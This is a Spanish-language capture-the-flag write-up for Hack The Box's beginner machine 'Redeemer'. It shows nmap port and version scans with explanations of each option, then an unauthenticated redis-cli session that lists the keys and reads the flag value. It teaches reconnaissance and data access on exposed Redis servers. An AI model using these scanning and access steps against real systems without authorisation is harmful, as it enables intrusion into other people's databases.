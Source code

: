 ```yaml
---
layout: single
title: Redeemer - Hack The Box
excerpt: "Redeemer es una máquina muy fácil que forma parte del Tier 0 de las máquinas para principiantes del Starting Point de Hack The Box. Para poder completar esta máquina, tendremos que conectarnos a ella a través de la VPN, para posteriormente comprometer la máquina mediante técnicas de reconocimiento para abusar de las vulnerabilidades existentes. En este caso, estaremos tocando Redis, un servicio de bases de datos en memoria de código abierto con licencia BSD."

date: 2022-10-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-redeemer/redeemer-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - CTFs
  - Linux
tags:   
  - redis
  - redis enumeration
---
```


![](/assets/images/htb-writeup-redeemer/redeemer-logo.png)

Redeemer es una máquina Linux muy fácil que forma parte del Tier 0 de las máquinas para principiantes del Starting Point de Hack The Box. Para poder completar esta máquina, tendremos que conectarnos a ella a través de la VPN, para posteriormente comprometer la máquina mediante técnicas de reconocimiento y escaneos para abusar de las vulnerabilidades existentes. En este caso, estaremos tocando `Redis`, un servicio de bases de datos en memoria de código abierto con licencia BSD, que se utiliza principalmente como base de datos, caché y agente de mensajes. Los datos se almacenan en un formato de diccionario conteniendo key-values.

## Reconocimiento Inicial

```
ping -c 1 10.129.20.70

PING 10.129.20.70 (10.129.20.70) 56(84) bytes of data.
64 bytes from 10.129.20.70: icmp_seq=1 ttl=63 time=94.1 ms

--- 10.129.20.70 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time Oms
rtt min/avg/max/mdev = 94.119/94. 119/94. 119/0.000 ms
```

## Escaneo de Puertos

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.20.70 -oG allPorts

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:36 CEST
Initiating SYN Stealth Scan at 17:36
Scanning 10.129.20.70 [65535 ports]
Discovered open port 6379/tcp on 10.129.20.70
Completed SYN Stealth
Scan at 17:36, 15.81s elapsed (65535 total ports)
Nmap scan report for 10.129.20.70
Host is up, received user-set (0.096s latency)
Scanned at 2022-08-14 17:36:36 CEST for 16s
Not shown: 62154 closed top ports (reset), 3380 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON
6379/tcp  open  redis   syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.94 seconds
           Raw packets sent: 77610 (3.415MB) Rovd: 66118 (2.645MB)
```

**Escaneo inicial de puertos abiertos con Nmap**
- **-p-** Escanea todo el rango de puertos [1-65535]
- **--open** Muestro solo los puertos abiertos
- **-sS** Aplica un TCP SYN Port Scan
- **--min-rate** Indica el número de paquetes por segundo a emitir
- **-vvv** Muestra por pantalla la información descubierta durante el escaneo
- **-n** Indica que no se aplicará resolución DNS durante el escaneo 
- **-Pn** Indica que no se aplicará el protocolo ARP durante el escaneo
- **-oG** Exporta el output del escaneo a un fichero en formato grepeable

![](/assets/images/htb-writeup-redeemer/allPorts.png)

```
sudo nmap -sCV -p6379 10.129.20.70 -oN targeted

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 17:39 CEST
Nmap scan report for 10.129.20.70
Host is up (0.044s latency).

PORT      STATE SERVICE VERSION
6379/tcp  open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.95 seconds
```

**Escaneo avanzado de detección de versiones y servicios con Nmap**
- **-p** Escanea los puertos especificados
- **-sV** Activa la detección de versiones y servicios
- **-sC** Lanza scripts básicos de reconocimiento y enumeración
- **-oG** Exporta el output del escaneo a un fichero en formato normal

![](/assets/images/htb-writeup-redeemer/targeted.png)

## Detección de vulnerabilidades

Como podemos ver en el escaneo, hemos identificado que el puerto `6379/tcp` está
en estado abierto, ejecutando el servicio de redis. `Redis` es un servicio de bases de datos en memoria de código abierto con licencia BSD, que se utiliza principalmente como base de datos, caché y agente de mensajes. Los datos se almacenan en un formato de diccionario conteniendo key-values. Nuestro objetivo será conectarnos al servidor y ver que podemos enumerar dentro de él para sacar la máxima información posible.

## Explotación de vulnerabilidades

**Redis**

Procedemos a conectarnos al servidor `redis` con `redis-cli` y el parámetro `-h` para especificarle el nombre del host con la `ip de la máquina víctima`.

```
redis-cli -h 10.129.20.70

10.129.20.70:6379>
```

Una vez iniciada la sesión en el servidor, podemos listar todas las `keys` presentes en la base de datos usando el comando `keys *`.

```
10.129.20.70:6379> keys *

1) "flag"
2) "temp"
3) "stor"
4) "numb"
```

Finalmente, podemos ver los valores almacenados de las keys usando el comando `get` para ver la `flag` de HackTheBox, que es nuestro objetivo principal.

```
10.129.20.70:6379> get flag

"03e1d2b376c37ab3f5319922053953eb"
``` 